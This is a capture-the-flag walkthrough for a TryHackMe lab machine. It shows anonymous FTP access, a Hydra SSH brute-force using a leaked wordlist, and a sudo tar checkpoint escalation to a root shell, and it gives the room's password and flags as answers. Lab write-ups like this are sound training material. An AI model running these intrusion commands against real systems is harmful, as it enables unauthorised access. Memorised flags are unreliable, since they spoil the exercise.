

# Cowboy Hacker — Tasks

## Task 1: Basic Exploitation

### Service Enumeration

The target exposes three services:

| Port   | Service | Version (from banner / scan) |
| ------ | ------- | ---------------------------- |
| 21/tcp | FTP     | vsFTPd 3.0.5                 |
| 22/tcp | SSH     | OpenSSH                      |
| 80/tcp | HTTP    | Apache                       |

### Anonymous FTP Access

The FTP server allows anonymous login:

```
220 (vsFTPd 3.0.5)
Name (10.49.172.169:l): Anonymous
230 Login successful.
Remote system type is UNIX.
```

The anonymous directory contains two files used later in the room:

- `task.txt` — the task list
- `locks.txt` — a password wordlist

**Note on the local FTP client:** the initial session authenticated but could not transfer data — active mode failed (`425 Failed to establish connection`) and the server refused passive mode. This blocked `ls`/`dir`/`get`. The exploit chain was therefore completed from the THM AttackBox, where the FTP data connection worked as intended.

### SSH Password Discovery

Using the username identified for the room user and the `locks.txt` wordlist, the SSH password is brute-forced with Hydra:

```
hydra -l lin -P locks.txt ssh://10.49.172.169
```

**Answer:** `RedDr0gonSynd1cat3`

### user.txt

After logging in over SSH as the room user, read the flag from the home directory:

```
cat user.txt
```

**Answer:** `THM{CRIM3_SyNd1C4T3}`

### root.txt — Privilege Escalation

Check what the user may run as root:

```
sudo -l

User lin may run the following commands on ...:
    (root) /bin/tar
```

`/bin/tar` is whitelisted to run as root with no password. This is a classic GTFOBins abuse — `tar` can execute an arbitrary command at a checkpoint:

```
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

This drops a root shell. Navigate to `/root` and read the final flag:

```
# cd /root
# cat root.txt
THM{B0UNTY_h4cK3r}
```

**Answer:** `THM{B0UNTY_h4cK3r}`

---

## Summary

| Question            | Answer               |
| ------------------- | -------------------- |
| FTP service version | vsFTPd 3.0.5         |
| SSH user            | lin                  |
| SSH password        | RedDr0gonSynd1cat3   |
| user.txt            | THM{CRIM3_SyNd1C4T3} |
| Sudo-granted binary | /bin/tar             |
| root.txt            | THM{B0UNTY_h4cK3r}   |

## Key Takeaways

1. **Anonymous FTP is a common low-hanging fruit** — always try `anonymous` / blank password during enumeration, then list everything.
2. **Leaked wordlists are reusable** — a wordlist dropped on an FTP server can double as a password list for brute-forcing other services (here, SSH).
3. **`sudo -l` is the first post-login check** — knowing exactly which binaries can run as root instantly reveals the escalation path.
4. **GTFOBins maps the sudo misconfiguration to a shell** — a whitelisted binary like `tar` is escapeable via `--checkpoint-action=exec`.
5. **FTP data-connection problems are environmental, not target-intrinsic** — when active and passive modes both fail locally, switch platforms (AttackBox/VPN) rather than assuming the service is broken.

## Evidence


